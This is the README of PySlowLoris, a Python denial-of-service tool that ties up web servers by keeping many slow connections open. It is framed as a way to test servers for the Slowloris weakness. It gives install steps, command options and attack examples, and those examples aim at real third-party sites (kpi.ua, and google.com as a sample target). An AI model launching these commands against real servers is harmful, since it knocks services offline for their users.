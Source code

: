 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-2.7-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![Requirements Status](https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master)](https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master)
[![Code Health](https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat)](https://landscape.io/github/maxkrivich/SlowLoris/master)
[![PyPI version](https://badge.fury.io/py/PySlowLoris.svg)](https://badge.fury.io/py/PySlowLoris)
[![Help Contribute to Open Source](https://www.codetriage.com/maxkrivich/slowloris/badges/users.svg)](https://www.codetriage.com/maxkrivich/slowloris)

This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find [here].

### Installation

#### PyPi

To install PySlowLoris, run this command in your terminal:

```sh
$ pip install pyslowloris
```
This is the preferred method to install PySlowLoris, as it will always install the most recent stable release.


#### Source files

In case you downloaded or cloned the source code from [GitHub](https://github.com/maxkrivich/SlowLoris) or your own fork, you can run the following to install cameo for development:

```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ vitualenv --python=python[version] venv
$ source venv/bin/active
$ pip install --editable .
```

#### Docker Hub

Pulling image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run container:

```sh
$ docker pull maxkrivich/pyslowloris
$ docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run container: 

```sh
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

**Note:** *Don't forget about 'sudo'!*

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

Small and simple tool for testing Slow Loris vulnerability

optional arguments:
  -h                show this help message and exit
  -u URL            link to the web server (http://google.com) - str
  -s SOCKET_COUNT   maximum count of created connection (default value 300) - int
  -p PORT           port what will be used - int

```

#### Using PySlowLoris from code

Here are some example to start attack from Python code

```py
import time
from PySlowLoris import TargetInfo, SlowLorisAttack

target = TargetInfo(url="http://kpi.ua/", port=80)
target.get_info()
slowloris = SlowLorisAttack(target)
slowloris.start_attack() # stop_attack()

while True:
    time.sleep(1)

```

#### Using PySlowLoris from terminal

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -s 300
```
###### stop execution: Ctrl + C


### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact [me].


### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017 Maxim Krivich

[maxkrivich.github.io](https://maxkrivich.github.io/)



[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
[me]: <https://maxkrivich.github.io>
